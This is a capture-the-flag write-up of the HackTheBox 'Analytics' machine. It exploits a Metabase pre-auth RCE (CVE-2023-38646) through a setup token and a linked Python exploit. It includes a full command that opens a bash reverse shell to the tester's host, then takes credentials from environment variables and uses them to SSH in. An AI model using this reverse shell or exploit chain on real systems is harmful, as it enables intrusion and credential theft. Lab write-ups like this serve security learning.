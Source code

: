                                                Analytics HTB writeup

- added ip,domain name to /etc/hosts
- lets do a basic nmap scan, yeah as usual port 80 and port22 is open
- lets go to the website and find for some leads
- and found this subdomain “http://data.analytical.htb/” while clicking the login button
- and heres it we get a metabase login page

after small googling I found out that the metabase login was vulnerable under this CVE “CVE-2023-38646”.

and not long after found this blog “https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/”

- found the setup token in this endpoint /api/session/properties
- I tried to follow this blog and get reverse shell. but Idk why it didn’t work for me eventhough commands are getting executed.
- not long after I found an python exploit which i will link in this repo **”https://github.com/a6ar55/HTB-writeups/blob/main/Analytics/exploit.py”**
- `python3 [exploit.py](http://exploit.py/) -u [http://data.analytical.htb](http://data.analytical.htb/) -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >&/dev/tcp/10.10.14.93/1234 0>&1"`

ran this exploit and listened on port 1234.

and yeahhh got the reverse shell


<img width="649" alt="Screenshot 2023-12-05 at 9 03 19 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/b05500a1-c701-4fd1-8f03-d607949ebf63">


<img width="651" alt="Screenshot 2023-12-05 at 9 03 27 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/63cceca7-46a3-4383-9333-d4002c79e00f">



after a lot of looking around found the username and password in the enviorment variables

<img width="903" alt="Screenshot 2023-12-05 at 9 05 03 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/a59c5f72-c0ca-498f-b91f-b822d55abba1">


and finally sshed to the user machine.

<img width="1004" alt="Screenshot 2023-12-05 at 9 09 40 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/d6913703-fcf7-4178-bde6-1934275068e6">



now whats left, we can just cat the user.txt

<img width="320" alt="Screenshot 2023-12-05 at 9 11 08 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/2287d1b6-43ff-480b-ab84-f749463d0099">

